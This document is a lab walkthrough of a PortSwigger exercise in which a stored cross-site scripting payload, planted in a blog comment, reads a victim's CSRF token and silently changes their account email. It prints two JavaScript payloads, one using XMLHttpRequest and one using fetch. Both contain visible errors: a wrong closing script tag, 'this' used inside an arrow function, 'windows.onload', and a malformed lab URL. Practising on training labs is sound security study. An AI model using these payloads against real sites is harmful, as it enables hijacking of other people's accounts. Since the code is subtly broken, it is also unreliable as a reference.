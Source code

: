 # Exploiting XSS to perform CSRF

In this challenge, we need to perform XSS and CSRF attack. In details, we need to create a payload that force user to change their email without their consent. There's actually few ways to solve the challenge, including using XMLHttpRequest, Using Form Action, or using fetch function. Here I'll perform using the **XMLHttpRequest** and **fetch** solution.

Here we can see an account page, where our user email is: **wiener@normal-user.net**

<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/Account.png?raw=true" alt="account page">

And if we see the code in developer tools, we need the user csrf token in order to change their email address. And the endpoint to perform it is **/my-account/change-email**

<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/request-requirement.png?raw=true" alt="requirement">

Just like a few challenge before, we able to insert out payload in the comment section of the box, the idea is whenever everyone open the blog that has our injected payload, will be forced to request email change without they consent.

<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/Exploit%20spot.png?raw=true" alt="requirement">

<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/script-tag-attempt.png?raw=true" alt="requirement">

So here's few payload that we able to do:
```javascript
//XMLHttpRequest
<script>
const req = new XMLHttpRequest();
req.open("GET","/my-account",true)
req.onload = () => {
    var csrfToken = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var emailReq = new XMLHttpRequest()
emailReq.open("POST","/my-account/change-email",true)
emailReq.send('csrf='+csrfToken+'&email=xss@attempt.com');
}
req.send()
<script>

//fetchrequest
<script>
windows.onload = function() {
    var token = document.getElementsByName('csrf')[0].value
    fetch("https://YOUR-LAB-ID.web-security-academy.net.com/my-account/change-email",{
        method: "POST",
        mode: "no-cors",
        body: "csrf="+token+"&email=xss@attemp.com"
    });
}
</script>
```

the first method will request the web-server to give us the content of my-account page and ask for it's csrf value, then perform a request using it's csrf token. While the second just directly ask for the change-email endpoint to perform email change, if the email is invalid, just add the payload again but change it's email to other email address (Honestly i don't know why but it worked).

The result is:
<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/final%20result.png?raw=true" alt="requirement">



